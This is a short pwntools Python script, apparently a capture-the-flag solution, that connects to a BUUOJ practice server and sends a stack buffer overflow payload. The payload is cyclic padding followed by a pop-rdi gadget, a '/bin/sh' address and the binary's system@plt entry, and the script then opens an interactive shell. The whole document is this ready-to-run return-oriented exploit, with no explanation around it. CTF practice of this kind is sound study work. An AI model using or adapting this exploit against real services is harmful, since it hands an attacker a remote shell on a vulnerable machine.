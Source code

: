 ```python
io = remote('node4.buuoj.cn', 25723)
elf = ELF('./pwn')

poprdi_ret = 0x400683
binsh = 0x601048

io.sendlineafter(b'What\'s your name? ', cyclic(0x18) + p64(poprdi_ret) + p64(binsh) + p64(elf.plt['system']))

io.interactive()
```
